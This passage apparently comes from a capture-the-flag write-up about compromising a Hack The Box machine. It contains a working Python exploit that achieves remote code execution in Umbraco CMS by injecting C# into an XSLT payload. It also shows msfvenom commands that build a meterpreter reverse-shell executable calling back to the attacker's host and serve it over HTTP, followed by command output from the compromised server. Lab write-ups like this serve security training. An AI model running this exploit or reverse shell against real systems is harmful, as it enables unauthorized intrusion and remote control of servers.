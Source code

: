 ```py
payload = """\
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml() { string cmd = "%s"; System.Diagnostics.Process proc = new System.Diagnostics.Process(); proc.StartInfo.FileName = "%s"; proc.StartInfo.Arguments = cmd; proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;  proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }  </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/> </xsl:template> </xsl:stylesheet>\
""" % (args.arguments, args.command)

login = args.user
password = args.password
host = args.url

# Process Login
url_login = host + "/umbraco/backoffice/UmbracoApi/Authentication/PostLogin"
loginfo = { "username": login, "password": password}
s = requests.session()
r2 = s.post(url_login,json=loginfo)

# Go to vulnerable web page
url_xslt = host + "/umbraco/developer/Xslt/xsltVisualize.aspx"
r3 = s.get(url_xslt)

soup = BeautifulSoup(r3.text, 'html.parser')
VIEWSTATE = soup.find(id="__VIEWSTATE")['value']
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value']
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN']
headers = {'UMB-XSRF-TOKEN': UMBXSRFTOKEN}
data = { "__EVENTTARGET": "", "__EVENTARGUMENT": "", "__VIEWSTATE": VIEWSTATE,
    "__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,
    "ctl00$body$xsltSelection": payload,
    "ctl00$body$contentPicker$ContentIdValue": "",
    "ctl00$body$visualizeDo": "Visualize+XSLT" }

# Launch the attack
r4 = s.post(url_xslt, data=data, headers=headers)
# Filter output
soup = BeautifulSoup(r4.text, 'html.parser')
CMDOUTPUT = soup.find(id="result").getText()
print(CMDOUTPUT)
```
This time we can generate an exe reverse shell (rather than aspx webshell),
use the above RCE exploit to get a powershell shell, upload the reverse shell,
and gain shell access:

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.222 LPORT=9999 -f exe > reverse.exe
$ python -m http.server --bind 10.10.15.222 8080
$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command ls'

    Directory: C:\windows\system32\inetsrv

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/19/2020   3:11 PM                Config
d-----        2/19/2020   3:11 PM                en
d-----        2/19/2020   3:11 PM                en-US
...

```